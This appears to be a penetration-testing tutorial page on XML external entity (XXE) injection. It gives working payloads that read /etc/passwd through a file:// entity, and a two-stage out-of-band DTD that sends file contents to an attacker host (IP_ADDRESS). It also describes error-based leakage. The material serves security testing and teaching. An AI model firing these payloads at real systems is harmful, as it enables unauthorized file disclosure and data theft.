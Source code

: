 ```yaml
---
title: XML external entities
tags:
  - web-app
  - pentesting
  - xml
  - injection
---
```


This section covers pwning XML parsers with **XML external entities (XXE)**
injection attacks. We can use XXE injection attacks to uncover information
disclosure, server-side request forgery (SSRF), remote command injection, and
remote code execution vulnerabilities in web applications.

## Testing for XXE

Here's an example for testing for XXE in an XML parser for a web application. If
we're providing the following input to a web application, and the internal
entity `lastname` is used to render the output for the `User` element, we know
we can inject XML entities for the application to process:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Hacker">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

### Retrieving files

After verifying the vulnerability, we can use it to conduct information
disclosure, targeting content on the host's file system:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

We determine where this content is rendered, and then we can retrieve the
contents of the file from the web application.

### Error-based exploitation

If the information we're targeting isn't rendered by the web application in a
way we can access after exploitation, we can use **error-based exploitation** to
possibly disclose the information we're targeting. For example, `lastname` might
have a maximum character length for the web application's database used to store
`User`s. If we request a file on the host system with a size that exceed this
limit, it's likely the web application will provide us with an error, leaking
the contents of the file we're targeting.

### Out-of-band exploitation

We can also conduct SSRF, coercing the victim machine to attempt to load
external resources from our server, disclosing information when the victim
executes a `GET` request. Here's an example of a payload that causes the victim
to request our XML file and parse it, causing the victim to request a second
stage payload that discloses the information we're targeting via a `GET`
request.

First stage payload:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://IP_ADDRESS/second-stage-payload.dtd">
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

Second stage payload:

```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://IP_ADDRESS/out?%content;'>" >
```

The first payload will request the second stage payload, which will attempt to
acquire the contents of the `/etc/passwd` file. Then the second stage payload
will attempt to acquire a resource from our web server, and we render the
content of the file in the `URL` the victim is requesting. This SSRF attack
leaks the contents of the file when the `GET` request reaches our web server.

Due to how URLs are parsed, it's likely a portion of this request will fail.
Unfortunately **out-of-band exploitation** for XXE vulnerabilities is a last
resort, and not always the most effective approach.
